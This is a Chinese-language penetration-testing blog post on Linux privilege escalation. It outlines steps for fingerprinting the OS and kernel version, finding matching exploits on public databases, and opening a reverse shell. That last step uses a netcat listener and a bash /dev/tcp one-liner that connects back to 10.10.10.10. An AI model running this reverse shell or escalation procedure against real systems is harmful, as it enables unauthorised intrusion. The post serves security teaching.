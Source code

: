 ```yaml
---
draft: false
date: 2016-08-09 19:23:13
title: Linux 下系统漏洞提权
description: 
categories:
  - Pentest
tags:
  - intranet
---
```


### 0x00 Linux下的提权
Linux下一般都是系统漏洞提权，分为以下几个步骤：
```
1. 获取系统版本号
2. 根据系统版本号找对应exp
3. 反弹shell
4. 尝试利用
```

### 0x01 提权
* 获取系统版本号
    * 获取发行版本
        * cat /etc/*-release
        * cat /etc/issue
        * cat /etc/lsb-release
        * cat /etc/redhat-release
    * 获取内核版本
        * cat /proc/version
        * uname -a
        * uname -mrs
        * rpm -q kernel
        * dmesg | grep Linux
        * ls /boot | grep vmlinuz
* 根据系统版本号找对应exp
    * http://www.exploit-db.com
    * http://1337day.com
    * http://www.securiteam.com
    * http://www.securityfocus.com
    * http://www.exploitsearch.net
    * http://metasploit.com/modules
    * http://securityreason.com
    * http://seclists.org/fulldisclosure
    * http://www.google.com
* 反弹shell
    * 本地：```nc -l -p 8888```
    * 目标机器：```/bin/bash -i >& /dev/tcp/10.10.10.10/8888 0>&1```
* 尝试利用

### 0x02 实例
* 得到系统版本号
![得到系统版本号](/img/post/privilge_escalation_linux_get_sys_version.png)

* 找对应exp
![找相应exp](/img/post/privilge_escalation_linux_search_exp.png)
![保存exp源码](/img/post/privilge_escalation_linux_exp_code.png)

* 反弹shell
![反弹shell](/img/post/privilge_escalation_linux_webshell_rebound_shell.png)

* 提权
![下载exp源码](/img/post/privilge_escalation_linux_write_exp_code.png)
![编译exp源码](/img/post/privilge_escalation_linux_compile_exp_code.png)
![运行exp](/img/post/privilge_escalation_linux_run_exp.png)
